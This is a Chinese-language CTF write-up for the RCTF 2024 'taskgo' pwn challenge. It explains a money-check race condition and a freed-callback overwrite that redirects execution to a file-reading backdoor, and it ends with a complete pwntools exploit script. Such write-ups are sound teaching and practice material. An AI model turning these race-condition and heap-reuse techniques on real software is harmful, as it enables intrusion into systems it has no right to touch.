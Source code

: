 ```yaml
---
title: rctf2024 - taskgo 
date: 2024/6/1 02:44:00
tags:
    - noob
---
```


From XCTF x RCTF 2024

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |on    |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序里编译了一个chromium的工具集进去，逆向压力猛增

主要利用了2个条件竞争：

### 第一处

在`CheckMoney`中，函数会先检查玩家的钱是否足够，然后sleep 1秒再扣除，
那么尝试让2次扣钱的操作同时检查，就可以同时扣除，溢出money成一个很大的值

具体来说，是同时买 *Silver Boat* 和 *Flame Scroll*

动调来看，进入Rapid Advance分支后买东西是由`PostTask`发起的，
在IOThread中运行；进入Magic Castle分支买东西在主线程中运行，
故存在条件竞争

![rc1](/assets/practice/taskgo1.png)

要先买船！要不然买法卷会阻塞输入线程导致无法同时买船

### 获取`BackDoor`

通过交叉引用不难看出程序中`Log`函数输出了`BackDoor`，`BackDoor`可以读取文件：
参数是`basic_string`，内容是玩家名字，将文件打开并输出，而参数设置在调用`Log`时完成

要想获取`BackDoor`的地址，只需要购买三种法卷并学习，然后在Magic Castle分支输入1337，
亦即执行`Gods`函数

chromium的std字符串与llvm的libc++中的std字符串一致，这是它的结构：

```c
  struct __long { // if string longer than 23 (including \0)
    char *__data_;
    size_t __size_;
    size_t __cap_ : sizeof(size_t) * 8 - 1;
    size_t __is_long_ : 1;
  };

  struct __short { // if string shorter than 23
    value_type __data_[23];
    unsigned char __size_    : 7;
    unsigned char __is_long_ : 1; // bit field to tag which type is used
  };

  struct basic_string {
    union {
      __long __l;
      __short __s;
    }
  };
```

### 第二处

可以注意到在执行`Gods`前提示等待5s，可能这里也能利用

具体来说，主线程运行到`$rebase(0x4ab8f)`时，post delayed task，
把要运行的函数`Gods`和它的参数`MagicHeld *held`存到`OnceCallback`中，
然后等待3,000,000 **微秒** 后交给IOThread来运行，而`Log`的函数指针，
正好存放在`held`上

在`OnceCallback`中，0x20处存放了要运行的函数指针，0x30处则存放了参数，
这个参数写入了以后就保持不变

已知`DropMS`可以释放`held`，在买了木船后触发`FiveStar`读取用户输入，
随后触发`NoteStar`分配一个输入的内容大小的堆块并将输入的字符串复制上去

在`$rebase(0x4c658)`的位置还可以看到给`held`分配的大小为0x30，
那么只要我们的输入长度与0x30一致，就可以将刚释放的堆块拿回来写入

基于以上思考，我们就可以得出利用链了：

![exp chain](/assets/practice/taskgo2.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './taskgo'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x4b82b)\nc')

    sh.sendline(b'flag') # username
    dbg()
    # buy $1000 silver boat
    sh.sendline(b'1')
    sh.sendline(b'2')
    # buy $10000 flame scroll
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger race condition
    sleep(1.25)
    recv = sh.recv()
    if b'4294' in recv:
        success('money value is overflowed')
    else:
        warn('fail to overflow money')
        sh.close()
        return 0

    FLAME_SCORLL = b'1'
    WATER_SCROLL = b'2'
    STONE_SCROLL = b'3'
    def learnMagic(scroll:bytes, skip:bool=False):
        if not skip:
            # buy scroll
            sh.sendline(b'2')
            sh.sendline(b'1')
            sh.sendline(scroll)
        # learn
        sh.sendline(b'2')
        sh.sendline(b'3')
        # drop the scroll
        sh.sendline(b'2')
        sh.sendline(b'2')
    learnMagic(FLAME_SCORLL, True)
    learnMagic(WATER_SCROLL)
    learnMagic(STONE_SCROLL)
    info('learned 3 magics')

    # buy ms first so we can use "1337"
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger Gods
    sh.sendline(b'2')
    sh.sendline(b'1337')
    sh.recvuntil(b'gift: ')
    backdoor = int(sh.recvline(), 16)
    success(f'Get BackDoor addr: {backdoor:#x}')
    
    # dbg()
    info('syncing program flow...')
    sleep(2)
    # trigger Gods, 3s to do what we want
    sh.sendline(b'2')
    sh.sendline(b'1337')

    # release held pointer
    sh.sendline(b'2')
    sh.sendline(b'2')
    # buy a wooden boat to invoke five-star
    sh.sendline(b'1')
    sh.sendline(b'1')

    # trigger five-star
    info('wait 1s so that we can get into FiveStar')
    sleep(1.5)
    sh.sendline(b'3')
    # alloc held back and overwrite it
    sh.sendlineafter(b'five-star', b'0'*0x28 + p64(backdoor))

    sh.recvuntil(b'RCTF{')
    success(f'Flag is: {"RCTF{"}{sh.recvuntil(b"}").decode()}')
    sh.close()
```
